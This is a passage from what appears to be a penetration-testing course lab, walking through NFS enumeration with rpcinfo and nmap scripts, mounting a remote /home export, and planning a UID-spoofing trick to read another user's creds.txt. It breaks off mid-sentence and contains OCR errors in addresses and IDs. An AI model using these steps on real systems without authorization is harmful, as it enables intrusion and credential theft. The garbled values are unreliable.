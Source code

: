 ```
100021  1,3,4		57765/tcp	nlockmgr
100024  1			34959/udp	status
100024  1			46908/tcp	status
100227  2,3			2049/tcp	nfs_acl
100227  2,3			2049/udp	nfs_acl	
...
```

Once we find NFS running, we can collect additional information, en umerate NFS services, and discover additional services using NSE scripts found in the /usr/share/nmap/scripts directory:

```
kali@kali:~$ nmap -p 111 --script nfs* 10.11.1.12
...
Nmap scan report for 10,11,1,72
PORT
STATE SERVI CE
111/tcp open rpcbind
| nfs-showmount:
|_  /home 10.11.0.0/255.255.0.
```

In this case, the entire /home directory is being shared and we can access it by mounting it on our Kali virtual machine. We will use mount to do this, along with -o nolock to disable file locking, which is often needed for older NFS servers:

```
kali@kali:-$ mkdir home

kali@kali:~$ sudo mount -o nolock 10.11.1.12:/home -/home/

kali@kali:~$ cd home/ && ls
jenny joe45 john marcus ryuu
```

Based on this file listing, we can see that there are a few home directories for local users on the remote machine. Digging a blt deeper, we find a filename that catches our attention, so we try to view it:

```
kali@kali:-/home$ cd marcus
kali@kali:~/home/marcus$ ls -la
total 24
drwxr-xr-x 2 1014 1014 4096 Jun 10 09: 16 •
drwxr-xr-x 7 root root 4096 Sep 17 2015 ..
-rwx------ 1 1814 1814
48 Jun 10 89:16 creds.txt

kali@kali:-/home/marcus$ cat creds.txt
cat: creds.txt: Permission denied
```

It appears we do not have permission to view this file. Taking a closer look at the file permissions, we can see that its owner has a UUID of 1014, and also read (r), write (w), and execute (x) permissions on it. What can we do with this information? Since we have complete access to our Kali machine, we can try to add a local user to it using the adduser command, change its UUID to 1014, su to that user, and then try  ccessing the file again:
